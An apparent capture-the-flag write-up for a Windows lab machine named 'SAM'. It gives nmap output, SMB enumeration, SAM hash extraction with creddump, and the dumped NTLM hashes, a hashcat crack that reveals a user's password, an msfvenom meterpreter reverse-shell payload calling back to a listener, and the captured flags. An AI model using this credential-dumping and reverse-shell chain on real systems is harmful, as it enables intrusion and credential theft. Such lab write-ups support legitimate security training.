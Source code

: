 # SAM

![](../.gitbook/assets/6f6523650b4d46ed85b36290473b72ca.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 127 Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2021-03-14T20:16:02+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## SMB ENUMERATION

![](../.gitbook/assets/46239863300b43b58976463244d28d96.png)

![](../.gitbook/assets/1465fbee5b484c5697a642afae21d720.png)

## EXTRACTING SAM FILES

* [https://miloserdov.org/?p=4129](https://miloserdov.org/?p=4129)

![](../.gitbook/assets/c4911e34eaff486bb4f9cf2be76c3e62.png)

* CREDDUMP \([https://github.com/moyix/creddump](https://github.com/moyix/creddump)\)

```text
https://tools.kali.org/password-attacks/creddump
```

![](../.gitbook/assets/0ed672621a3d4e83830a1c0fc827e172.png)

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jamie:1001:aad3b435b51404eeaad3b435b51404ee:68b1d3b0493ec0d6a1c0b8725062ab71:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:661e39b67cabec9066e1de26094770ab:::
```

### CRACKING HASHES

* [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) \(HASH MODE 1000\)

```text
hashcat -m 1000 hashes.txt rockyou.txt
```

```text
jamie:rangers
```

![](../.gitbook/assets/e4e832ee8c474c2bbff65b42c17f2d0f.png)

## SERVICES FOUND

* C:\Services

![](../.gitbook/assets/4bd5933b44b449f4b3dcb474d23a182c.png)

![](../.gitbook/assets/afeb5087ee4e4e2ab8ad95c04322c2fa.png)

## EXPLOIT

```text
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.0.63 LPORT=7777 -f exe -o monitor1.exe
```

![](../.gitbook/assets/84045baefb554945abbc8d1af5c8f9ca.png)

![](../.gitbook/assets/256df13b5a054ecda15aa90ef0bd4323.png)

![](../.gitbook/assets/f94b54cb5f3c4ee5ac669730e98ce680.png)

## FLAGS

### USER

```text
74ae5253abdba3a1769280a36f56e0e8
```

### ROOT

```text
92006a1bd2d08f0908b8634ffcc72a74
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

